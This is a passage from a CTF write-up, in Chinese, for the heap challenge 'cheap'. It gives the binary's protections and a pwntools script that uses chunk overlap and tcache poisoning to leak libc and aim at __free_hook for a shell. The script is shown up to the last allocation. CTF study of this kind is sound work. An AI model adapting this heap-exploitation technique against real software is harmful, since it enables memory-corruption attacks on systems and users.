 

### cheap

```
// file
./cheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4b435b9cd30deea3e95e89b138f2f4cb02b0090b, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/tsgctf/cheap/cheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

單純的 heap 題，用 overlap 來做到 tcache poison：

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

r = process('./cheap')

def create(size, data):
    r.sendlineafter('Choice: ', '1')
    r.sendlineafter('size: ', str(size))
    r.sendlineafter('data: ', data)

def show():
    r.sendlineafter('Choice: ', '2')

def delete():
    r.sendlineafter('Choice: ', '3')

create(0x10, 'A')
delete()
create(0x20, 'B')
delete()
create(0x10, b'\x00'*0x18 + p64(0x421))
delete()
create(0x420-0x10-0x30 - 0x10, 'C')
create(0x70, p64(0) + p64(0x21) + p64(0)*0x3 + p64(0x21))
create(0x20, 'D')
delete()
show()
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
_system = libc + 0x55410
_free_hook = libc + 0x1eeb28
info(f"libc: {hex(libc)}")
create(0x20, 'E')
delete()
create(0x30, 'F')
delete()
create(0x20, b'\x00'*0x20 + p64(0) + p64(0x31))
delete()
create(0x30, 'G')
delete()
create(0x10, b'\x00'*0x50 + p64(_free_hook - 8) + p64(0))
```